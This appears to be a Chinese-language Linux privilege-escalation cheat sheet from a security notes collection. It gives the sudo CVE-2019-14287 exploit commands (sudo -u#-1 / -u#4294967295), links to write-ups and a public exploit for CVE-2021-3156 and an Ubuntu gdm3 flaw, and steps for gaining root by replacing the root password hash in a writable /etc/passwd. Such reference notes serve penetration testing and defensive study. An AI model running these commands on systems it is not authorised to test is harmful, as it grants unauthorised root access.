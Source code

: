 
## 原生软件提权

**CVE-2019-14287**
- 简介

    当 sudo 配置为允许用户以任意方式运行命令时用户通过 Runas 规范中的 ALL 关键字，可以通过指定用户 ID -1 或 4294967295 以 root 用户身份运行命令。

- 影响范围
    - Sudo_project:Sudo:1.3.0:*:*:*
    - Sudo_project:Sudo:1.3.1:*:*:*
    - Sudo_project:Sudo:1.4.0:*:*:*
    - Sudo_project:Sudo:1.5.0:*:*:*
    - Sudo_project:Sudo:1.5.1:*:*:*

- 文章
    - [How to detect CVE-2019-14287 using Falco](https://sysdig.com/blog/detecting-cve-2019-14287/)
    - [CVE-2019-14287 linux sudo root 权限绕过漏洞复现](https://mp.weixin.qq.com/s/bb6Hd3JdYiLilqdP_-INtA)

- POC | Payload | exp
    ```bash
    cat /etc/sudoers | grep "(\s*ALL\s*,\s*\!root\s*)"
    cat /etc/sudoers | grep "(\s*ALL\s*,\s*\!#0\s*)"

    sudo -u#-1 id -u
    或者:
    sudo -u#4294967295 id -u
    ```

**Ubuntu + accountsservice dos + gdm3 LPE**
- 文章
    - [How to get root on Ubuntu 20.04 by pretending nobody’s /home](https://securitylab.github.com/research/Ubuntu-gdm3-accountsservice-LPE)

**CVE-2021-3156 Sudo 本地权限提升**
- 文章
    - [CVE-2021-3156: Heap-Based Buffer Overflow in Sudo (Baron Samedit)](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit)
    - [漏洞情报｜Linux Sudo 本地权限提升高危漏洞风险通告（CVE-2021-3156）](https://mp.weixin.qq.com/s/UsY3NVJjOTiV-96tIA9IpA)

- POC | Payload | exp
    - [reverse-ex/CVE-2021-3156](https://github.com/reverse-ex/CVE-2021-3156)

---

## 系统配置提权

**文章教程**
- [Abusing SUDO (Linux Privilege Escalation)](https://touhidshaikh.com/blog/?p=790)
- [谈一谈Linux与suid提权](https://www.leavesongs.com/PENETRATION/linux-suid-privilege-escalation.html)

**若 /etc/passwd 文件可修改**

> 梦想总得有,万一真的可以成功呢
```bash
openssl passwd -1   # 输入你想改成的密码,用得到的 hash 去替换 root 行的 x
python -c 'import pty; pty.spawn("/bin/bash")'
```
然后 su root,输入上一步改的密码
